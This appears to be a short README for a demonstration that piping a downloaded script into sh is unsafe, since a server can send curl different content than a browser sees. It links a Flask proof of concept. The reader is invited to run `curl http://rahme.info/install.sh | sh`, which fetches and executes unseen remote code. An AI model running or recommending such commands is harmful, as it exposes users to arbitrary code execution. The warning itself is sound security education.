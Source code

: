 Why you shouldn't run arbitrary code over the network
=====================================================

It is not enough to inspect the file before running this horrible command. Try
this:

* Read the file located at http://rahme.info/install.sh
* Execute `curl http://rahme.info/install.sh | sh`


What happened?
--------------

It's not very difficult to configure your webserver to server different content
based on the client of the users. I wrote a [very basic proof of concept][1] in
Flask.

What should I do?
-----------------
Download the file locally. Read it. Run it maybe.



I also want to mention [this website][2] that catalogs all the projects that
promote this practice in their installation instructions.

[1]: https://github.com/joehakimrahme/curlsh/blob/master/curlsh.py#L7
[2]: http://curlpipesh.tumblr.com/

